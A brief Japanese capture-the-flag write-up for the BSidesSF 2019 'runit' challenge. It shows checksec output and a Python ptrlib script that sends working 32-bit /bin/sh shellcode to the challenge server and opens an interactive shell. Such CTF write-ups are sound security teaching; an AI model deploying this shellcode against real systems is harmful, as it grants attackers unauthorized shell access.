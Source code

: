 # [pwn 25pts] runit - BSidesSF 2019 CTF
```
$ checksec runit 
emac[*] 'runit'
    Arch:       32 bits (little endian)
    NX:         NX enabled
    SSP:        SSP disabled (No canary found)
    RELRO:      Partial RELRO
    PIE:        PIE disabled
```
シェルコードを送ると実行してくれるだけのバイナリです。

```python
from ptrlib import *
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73"
shellcode += b"\x68\x68\x2f\x62\x69\x6e\x89"
shellcode += b"\xe3\x89\xc1\x89\xc2\xb0\x0b"
shellcode += b"\xcd\x80\x31\xc0\x40\xcd\x80"
sock = Socket("runit-5094b2cb.challenges.bsidessf.net", 5252)

sock.sendline(shellcode)
sock.interactive()
```

# 感想
やるだけ問題ですね。